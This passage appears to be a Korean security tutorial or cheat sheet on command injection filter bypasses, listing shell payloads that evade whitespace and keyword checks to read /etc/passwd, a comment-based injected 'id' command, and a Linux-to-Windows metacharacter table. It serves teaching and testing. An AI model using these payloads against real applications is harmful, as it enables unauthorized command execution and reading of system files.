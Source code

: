 ### 입력 값의 내용이 제한된 상황

---

command Injection 취약점이 발생하지만 입력하는 데이터 내용에 대한 검증 또는 어플리케이션의 로직에 의해 원하는 내용을 직접적으로 입력하지 못하는 상황에서 주로 쉘에서 제공하는 기능 또는 환경 변수 등을 이용하여 최종적으로 원하는 명령어를 실행할 수 있다.

- Whitespace

```bash
\x09(TAB)
cat${IFS}/etc/passwd
cat$IFS/etc/passwd
X=$'\x20';cat${X}/etc/passwd
X=$'\040';cat${X}/etc/passwd
{cat,/etc/passwd}
cat</etc/passwd
```

- KeyWord

```bash
# /bin/cat 명령어를 아래와 같은 방법들을 통해 우회하여 사용 가능합니다.
/bin/c?t /etc/passwd
/bin/ca* /etc/passwd
c''a""t /etc/passwd
\c\a\t /etc/passwd
c${invalid_variable}a${XX}t /etc/passwd
echo -e "\x69\x64" | sh
echo $'\151\144'| sh
X=$'\x69\x64'; sh -c $X
xxd -r -p <<< 2f6574632f706173737764 # /etc/passwd
cat `xxd -r -p <<< 2f6574632f706173737764`
```

- Comments

```bash
ping "127.0.0.1"; id # "
```

## Windows 환경

Windows 환경의 cmd.exe는 Linux(Unix) 계열의 쉘과 다른 부분이 있다.

### Linux 환경과 대응하는 쉘 메타문자

| Linux | Windows (cmd, powershell) | 설명 |
| :--- | :--- | :--- |
| `-A`, `--A` | `/c` | 커맨드 라인 옵션 |
| `$PATH` | `%PATH%` | 환경 변수 |
| `$ABCD` | `$ABCD` (powershell only) | 쉘 변수 |
| `;` | `&` (cmd only)<br>`;` (powershell only) | 명령어 구분자 |
| `echo $(id)` | `for /f "delims=" %a in ('whoami') do echo %a` | 명령어 치환 |
| `> /dev/null` | `> NUL` (cmd only)<br>`| Out-Null` (powershell only) | 출력 제거 |
| `command || true` | `command & rem` (cmd only)<br>`command -ErrorAction SilentlyContinue` (powershell Cmdlet only) | command 명렁어 오류 무시 |
